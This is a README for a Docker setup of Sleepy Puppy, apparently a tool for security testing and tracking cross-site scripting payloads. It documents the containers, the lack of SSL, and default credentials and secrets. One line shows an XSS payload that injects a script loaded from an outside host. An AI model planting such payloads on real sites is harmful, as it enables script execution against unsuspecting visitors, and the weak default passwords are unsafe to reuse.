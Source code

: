 Sleepy Puppy ZeroToDocker
=======================


For full documentation, please see the [wiki](https://github.com/Netflix/sleepy-puppy/wiki).

This repo utilizes docker compose to launch a cluster of containers to support the sleepy-puppy project.  This is only meant to be used to **play**.  See the [Issues](#Issues) section for information regarding productionalizing these containers.

----------


Starting
-------------

> docker-compose up

Stopping
-------------
> docker-compose stop

Architecture
-------------

This project launches three containers:

 1. postgres:latest
 2. sleepy-puppy-nginx:0.2.0
 3. sleepy-puppy-web:0.2.0

Externally, only sleepy-puppy-nginx exposes any ports.  This container only exposes TCP 80.  See the [Issues](#Issues) section for an explanation of why TCP 443 was not exposed.


Issues
-------------

**No SSL**
Other containers in the zeroToDocker project use self-signed SSL certificates, as only the user will be required to have their browser accept this SSL cert.  For sleepy-puppy, the user, and anyone browsing any site with a sleepy-puppy payload would need to accept the self-signed SSL cert.

This is likely to cause confusion when trying to get a payload to fire.  To simplify the situation, the docker will not expose SSL.  To save a few characters and avoid mixed-content warnings, sleepy-puppy payloads exclude the protocol.

	> '"><script src=//ti.ht/x?u=2></script>

Because the payloads exclude the protocol, and the container is not listening on SSL, the payloads will only fire on HTTP (not HTTPS) sites.

If you plan to run this in production, you will need to obtain an SSL cert from a trusted source and modify the sleepy-puppy-nginx container to terminate the SSL.

----------

**Default credentials on the web UI**
The username for the sleepy-puppy web UI is `admin`.  The docker-compose.yml defines the password as `password` by setting the `DOCKER_ADMIN_PASS` environment variable.  

For production use, you will want to modify or remove this default account.

**Default Flask-Secret and CSRF-Secret**
The docker-compose.yml defines a `secret_key` and `csrf_session_key` environment variable which are passed into the Flask application.

For production use, you will want to modify these values.

**Default credentials on the postgres database**
The username for the postgres database is `postgres`.  The password for this database is actually set in the api-start.sh file found within the sleepy-puppy-web container.  This password is set to `password`.

You may wish to change this password for production use.


